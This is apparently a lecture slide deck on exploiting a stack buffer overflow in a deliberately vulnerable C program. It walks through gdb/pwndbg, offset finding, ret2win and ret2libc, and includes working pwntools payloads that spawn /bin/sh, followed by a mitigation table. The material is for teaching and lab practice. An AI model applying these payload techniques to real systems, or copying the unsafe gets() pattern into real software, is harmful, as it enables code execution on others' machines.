# What we are going to do

<v-clicks>

1. Write a 20-line C program with a classic `gets()` stack overflow
2. Learn just enough **gdb + pwndbg** to see what the CPU is doing
3. Find the **offset** to the saved return address — with a cyclic pattern
4. Point the return address somewhere else: **ret2win**
5. Then: **libc, PLT and the GOT** — how the loader resolves `system()`
6. **ret2libc**: reuse libc code instead of injecting our own → shell 🐚

</v-clicks>

<!--
Emphasise: the whole exploit is *one* number (the offset) plus *one* chosen
address.  Everything else is tooling.
-->

---
layout: section
title: "0 · target"
---

# 0 · The target program

---

# vuln.c — 20 lines, one bug

<div style="--slidev-code-font-size:0.6em">

```c {all|1-3|5-8|10-14|16-20}
#include <stdio.h>
#include <stdlib.h>
extern char *gets(char *);      /* removed from C11, still in libc */

__attribute__((used)) void win(void) {
    puts("[+] win() reached -- return address overwritten");
    exit(0);
}

void greet(void) {
    char buf[64];               /* the victim buffer ... */
    gets(buf);                  /* ... and the bug       */
    printf("Hello, %s!\n", buf);
}

int main(void) {
    greet();
    puts("bye");                /* never printed after a success */
    return 0;
}
```

</div>

<!--
gets() cannot be used safely: it has no idea how big the destination is.  It
was removed from C11 and from glibc's headers (2023), which is why we declare
it ourselves -- ld even warns us ("the `gets' function is dangerous").  win()
is dead code in normal runs: it exists to give step 4 a landing pad.
-->

---

# Build it: make life easy for the attacker

<div style="--slidev-code-font-size:0.72em">

```console
$ gcc -g -O0 -fno-stack-protector -no-pie -fno-pie vuln.c -o vuln64
$ gcc -m32 -mpreferred-stack-boundary=2 -g -O0 -fno-stack-protector \
      -no-pie -fno-pie vuln.c -o vuln32
```

</div>

| flag | what it switches off | why we do it |
|------|----------------------|--------------|
| `-fno-stack-protector` | **stack canary** | otherwise the overflow is detected |
| `-no-pie -fno-pie` | **PIE** | `win()` stays at a known address |
| *not* `-z execstack` | keeps **NX** on | no shellcode on the stack → we must reuse code |

<div style="font-size:0.82em;margin-top:0.3em">
Need pwntools: <code>python3 -m pip install --user pwntools</code> — payload builder, ELF parser, ROP toolkit.
</div>

<!--
Notice what we did NOT change: the stack is not executable.  That is exactly
the situation the last section deals with.
-->

---

# First look: checksec

<div class="img-col">

</div>

<div style="font-size:0.78em;text-align:center">

`Partial RELRO` · `No canary found` · `NX enabled` · `No PIE` — three of the four walls are down

</div>

<!--
pwndbg shows the same summary as checksec.sh, but from inside the debugger.
RELRO + NX + PIE + canary are the four walls around a stack overflow, and we
have just removed three of them.
-->

---

# checksec on the 32-bit build

<v-clicks>

- arch `i386`, base `0x08048000`, every pointer is **4 bytes**
- the `RUNPATH` line is an artefact of this container's extracted 32-bit toolchain

</v-clicks>

<div class="img-col">

</div>

---
layout: section
title: "1 · gdb"
---

# 1 · gdb + pwndbg in five minutes

---

# Install and start

<div style="--slidev-code-font-size:0.78em">

```console
$ sudo apt install gdb                       # or: brew install gdb
$ git clone https://github.com/pwndbg/pwndbg && cd pwndbg
$ ./setup.sh                                 # writes ~/.gdbinit, builds a venv
$ gdb -q ./vuln64
```

</div>

<v-clicks>

- `-q` = quiet (no banner); `--args ./vuln64 arg1 arg2` passes arguments
- if you see no colours and no `pwndbg: loaded ... commands` line, your
  `~/.gdbinit` is wrong — that is the #1 setup problem
- alternatives: **GEF**, plain gdb + `layout asm`, **rizin**, **ghidra**

</v-clicks>

<!--
pwndbg is a Python script that gdb sources from ~/.gdbinit.
-->

---

# Plain gdb: six commands you need

| command | meaning |
|---------|---------|
| `run` / `r` | start the program |
| `break main`, `b *0x40119a` | breakpoint by symbol or by address |
| `continue` / `c`, `stepi` / `si`, `nexti` / `ni` | resume, one instruction, one instruction over calls |
| `info registers` | all registers |
| `x/4gx $rsp` | examine 4 "giant" (8-byte) words in hex — 32-bit: `x/4wx $esp` |
| `x/i $rip`, `disassemble`, `backtrace` | disassembly and call stack |
| `print &system`, `p/x 0x40+8` | evaluate an expression |

<!--
`x/4gx` = examine / 4 units / giant (8 bytes) / hex.  This is the command that
makes the stack readable.
-->

---

# pwndbg adds what you actually want

| command | what it shows |
|---------|---------------|
| `context` | registers, stack, code, backtrace — after every stop |
| `checksec` | canary / NX / PIE / RELRO |
| `vmmap` | the whole address space, per segment |
| `got`, `plt` | GOT entries and PLT stubs of the binary |
| `telescope $rsp 8` | memory **with pointers followed** |
| `cyclic 80`, `cyclic -l $rbp` | de Bruijn pattern and offset lookup |
| `rop --grep "pop rdi"`, `heap`, `bins` | gadget search and glibc heap |

<div style="font-size:0.8em;margin-top:0.5em">

Tip: the context dump is chatty — <code>set context-sections regs stack</code> keeps
only what you need, <code>set context-sections ''</code> silences it entirely.

</div>

<!--
`cyclic -l <value>` is the single most used command in this lab: it takes a
smashed register value and tells you at which offset of the pattern it sits.
-->

---
layout: section
title: "2 · offset"
---

# 2 · Finding the offset

---

# Where exactly does buf sit?

<div style="--slidev-code-font-size:0.72em">

```asm
000000000040116e <greet>:
  40116e: push   %rbp
  40116f: mov    %rsp,%rbp
  401172: sub    $0x40,%rsp          # 64 bytes for buf[64]
  401176: lea    -0x40(%rbp),%rax    # buf starts at rbp-0x40
  40117a: mov    %rax,%rdi
  40117d: call   401050 <gets@plt>   # <-- unbounded write
  401199: leave                      # mov rsp,rbp ; pop rbp
  40119a: ret                        # pop the saved return address
```

</div>

<v-clicks>

- `buf` starts at `rbp - 0x40`, so **64 bytes of input** fill it exactly
- the next word is the **saved `rbp`** (+8 on x86_64, +4 on x86)
- then the **saved return address**: offset **72** on x86_64, **68** on x86

</v-clicks>

<!--
Do not trust the source: measure it (next slides).  The compiler may add
padding for alignment or save another register, and the offset changes.
-->

---

# x86_64, animated: before → during → after

<div class="img-col">
</div>

<div style="font-size:0.74em;text-align:center;margin-top:-0.2em">

① normal frame ② `gets()` writes past `buf`, over `saved rbp`, over the return address ③ `ret` pops the attacker value

</div>

<!--
The animation loops every 12 s.  The saved rbp is overwritten as well --
harmless: `leave` copies the register (still valid) into rsp, and the 8 bytes
that matter are the ones `ret` will pop.
-->

---

# x86, animated: the same story with 4-byte words

<div class="img-col">
</div>

<div style="font-size:0.74em;text-align:center;margin-top:-0.2em">

same buffer size, but `ebp` and the return address are 4 bytes → offset **68** instead of 72

</div>

<!--
The offset depends on the architecture, not on the bug.  Getting this number
right *is* the exploit; everything else is bookkeeping.
-->

---

# Measure it: x86_64

<div class="img-col">

</div>

<div style="font-size:0.76em;text-align:center">

`rbp` = `0x6161617261616171` → `cyclic -l $rbp` = 64, so the return address sits at **64 + 8 = 72**

</div>

<!--
The pattern is a de Bruijn sequence: every 4/8-byte window is unique, so a
smashed register tells you its own offset.  On x86_64 the value is
non-canonical, so the fault is reported at the `ret` itself and rip still
points at `greet+44`; `x/2gx $rsp` shows the value that is about to be popped.
-->

---

# Measure it: x86

<div class="img-col">

</div>

<div style="font-size:0.76em;text-align:center">

`eip` = `0x61616172` → `cyclic -l $eip` = **68** — the classic 32-bit picture

</div>

<!--
On x86 every 32-bit value is a valid address, so the CPU happily jumps to
0x61616172 and faults there.
-->

---
layout: section
title: "3 · hijack"
---

# 3 · Hijacking the return address

---

# ret2win: aim at a function that already exists

<div style="--slidev-code-font-size:0.74em">

```python
#!/usr/bin/env python3
from pwn import *

elf  = ELF("./vuln64", checksec=False)
pad  = 64 + 8                       # buf + saved rbp  (x86: 64 + 4)
payload = b"A" * pad + p64(elf.symbols["win"])

p = process("./vuln64")
p.sendline(payload)
print(p.recvrepeat(1).decode())
```

</div>

<v-clicks>

- `win()` lives in a **non-PIE** binary → its address (`0x401156`) is known in advance
- ASLR randomises *libraries* and the stack, not the `.text` of a non-PIE executable
- this is the smallest possible **code reuse** attack — nothing is executed from the stack

</v-clicks>

<!--
First `gets()` stores all 80 bytes, then `leave; ret` pops our address and the
CPU jumps into win().  Works with NX on.
-->

---

# It works on both architectures

<div class="img-col" style="gap:0.3em">


</div>

<div style="font-size:0.76em;text-align:center">

same script, different pointer size and padding — the program says *hello* to our payload, then jumps to `win()`

</div>

---

# But we cannot run our own code

The 1996-style exploit put **shellcode** in the buffer and jumped to the stack:

```console
$ gcc -z execstack vuln.c -o vuln_noNX      # enable an executable stack (bad!)
```

With **NX / DEP** — the default everywhere since ~2004 — the stack is `rw-`, so
the CPU refuses to execute those bytes.

<v-clicks>

- **defence:** `W ⊕ X` — a page is either writable or executable, never both
- **countermeasure:** do not inject code — **reuse** code that is already mapped
- available targets: `win()`, any **libc** function, any **gadget** (`ret`-terminated instruction sequence)
- that is *ret2libc* / *ROP*, and it needs to know **where libc is** → GOT/PLT time

</v-clicks>

---
layout: section
title: "4 · libc/GOT"
---

# 4 · libc, PLT and the GOT

---
class: text-center
---

# Dynamic linking



<!--
This is "lazy binding": the first call to each libc function costs a symbol
lookup, later calls are a single indirect jump.  `-z now` + full RELRO resolve
everything at startup and make the GOT read-only again.
-->

---

# PLT, GOT, RELRO

**PLT** — *Procedure Linkage Table*: one tiny stub per imported function, at
**fixed addresses inside the binary**.

**GOT** — *Global Offset Table*: `.got.plt` holds one pointer per import, filled
with the real libc address on first use.

<v-clicks>

- `Partial RELRO` (our binary): the GOT stays writable → *GOT overwrite* works
- `Full RELRO` (`-z now`): resolved at startup, then mapped read-only
- the GOT is the only place where a **fixed** address points into **randomised** libc
  <br> → perfect leak target *and* perfect hijack target (left _for another time_)

</v-clicks>

<!--
Full RELRO is why modern exploits usually leak a libc pointer first instead of
overwriting a GOT entry.
-->

---

# The GOT of a fresh process

<div class="img-col">

</div>

<div style="font-size:0.76em;text-align:center">

every entry still points back into its own PLT stub (`gets@plt+6`) — lazy binding, frozen by the breakpoint on `main()`

</div>

<!--
`got` filters read-only entries; `got -r` shows them too.  `plt` prints the
stub addresses that the GOT entries point to before resolution.
-->

---

# Where is libc? Ask the process

<div class="img-col">

</div>

<div style="font-size:0.76em;text-align:center">

`system = libc_base + 0x53090`, `"/bin/sh" = libc_base + 0x1a5ea4` — offsets from glibc 2.41, **yours will differ**

</div>

<!--
ASLR randomises the *base*, not the layout inside libc: one leaked address
reveals every libc function at once.  Read the offsets with
`readelf -sW libc.so.6 | grep system` or `ELF(...).symbols["system"]` in
pwntools; pwndbg gives you the loaded base with `vmmap libc` or `libc` .
-->

---

# Why the GOT matters for an exploit

<div style="--slidev-code-font-size:0.74em">

```python
leak   = u64(p.recvline().strip().ljust(8, b"\0"))   # some libc pointer
libc   = ELF("/lib/x86_64-linux-gnu/libc.so.6")
base   = leak - libc.symbols["puts"]                 # base = leak - offset
system = base + libc.symbols["system"]
```

</div>

<v-clicks>

- **no leak?** a non-PIE exploit can still call `system@plt` at its *fixed*
  address (ret2plt) — no libc base needed at all
- **leak available?** (format string, uninitialised memory, out-of-bounds read,
  `/proc/self/maps`, …) → compute any libc address you like
- in this lab we "leak" with `/proc/<pid>/maps`, because containers often forbid
  turning ASLR off (`setarch -R` → *Operation not permitted*)

</v-clicks>

<!--
The "Error disabling address space randomization: Operation not permitted"
warning seen in the screenshots is that same restriction.  Real exploits do not
need it: they leak.
-->

---
layout: section
title: "5 · ret2libc"
---

# 5 · ret2libc

---

# The x86 chain: arguments live on the stack



<div style="--slidev-code-font-size:0.78em">

```c
payload = b"A" * 68 + p32(system) + p32(0xDEADBEEF) + p32(binsh);
```

</div>

<v-clicks>

- `ret` pops `system` → the CPU starts executing libc's `system()`
- cdecl: `system`'s argument is at `[esp+4]` — exactly the next 4 bytes we control
- no gadget needed: **the calling convention does the work for us**

</v-clicks>

<!--
0xDEADBEEF is a fake return address: when /bin/sh exits, system() returns there
and we crash — long after the shell was useful.
-->

---

# The x86_64 chain: we need a gadget

<v-clicks>

- the first argument travels in **`rdi`**, not on the stack
- so we must load `rdi` with the address of `"/bin/sh"` before calling `system`
- `pop rdi ; ret` does exactly that — and this tiny binary has none
  (`__libc_csu_init` disappeared with glibc 2.34) → take it from **libc**

</v-clicks>



<div style="--slidev-code-font-size:0.74em">

```c
payload = b"A"*72 + p64(pop_rdi) + p64(binsh) + p64(ret) + p64(system)
```

</div>

<!--
The extra `ret` is not decoration: glibc may use movaps on the stack and fault
if rsp is not 16-byte aligned.  If system() dies with SIGSEGV at its first
instruction, add a ret.  That is the #1 ret2libc gotcha.
-->

---

# Finding the gadget

<div class="img-col">

</div>

<v-clicks>

- `ROPgadget`, `ropper`, pwntools' `ROP()` and pwndbg's `rop` all list these
- the offset is stable for a given libc build → `pop_rdi = libc_base + 0x2a145`
- the same libc gives thousands of gadgets → **ROP chains**

</v-clicks>

<!--
A gadget is any instruction sequence ending in `ret`, reachable at *any* byte
offset: 0x2a145 is in the middle of a `pop r15; ret` (`41 5f c3` → `5f c3`).
-->

---

# The exploit: x86 first

<div class="img-col">

</div>

<v-clicks>

- `system("/bin/sh")` runs **inside the victim process** → the shell inherits its privileges and its stdin/stdout
- nothing was executed from the stack: **NX is irrelevant**, we only reused code

</v-clicks>

---

# … and x86_64

<div class="img-col">

</div>

<v-clicks>

- same result, more homework: leak the base, find a gadget, fix the alignment
- the whole script is 25 lines: `./buffovf-scripts/exploit_ret2libc_x86_64.py`

</v-clicks>

---

# What would have stopped us?

| mitigation | stops | bypass |
|------------|-------|--------|
| **Stack canary** | overwriting the return address | leak the canary, write it back |
| **NX / DEP** | running injected shellcode | **ret2libc / ROP** — what we just did |
| **PIE + ASLR** | knowing `win()`, gadgets, libc | one leak, partial overwrite, brute force |
| **Shadow stack** (CET) | `ret` to a non-`call` address | other pointer classes (data-only attacks) |
| **CFI** | jumping mid-function | data-oriented programming |

<!--
The canary is `-fstack-protector`, PIE is `-pie -fPIE`, RELRO is `-z relro -z now`.
Tie back to the Lecture 5 summary table: each mitigation moves the attacker one
step down the "generic exploit steps" list, never to zero.
-->

---

# Homework

1. Rebuild `vuln.c` **with** `-fstack-protector` and watch the canary abort the
   program (`*** stack smashing detected ***`). Then leak the canary with a
   format-string bug and write it back.
2. Turn on **PIE** (`-pie -fPIE`) and redo the offset hunt: what changes, and
   why does `win()` no longer have a fixed address?
3. Replace the `pop rdi ; ret` gadget with a two-stage **ret2plt** chain
   (`gets@plt` → `.bss` → `system@plt`) — it needs no libc base at all.
4. Do it on ARM64: which register carries the first argument, and what does the
   gadget look like?

<!--
Exercise 3 is the "no leak needed" variant: PLT stubs live in a non-PIE binary,
so their addresses are fixed even with ASLR on.
-->

---

# Cheat sheet

<div style="--slidev-code-font-size:0.66em">

```console
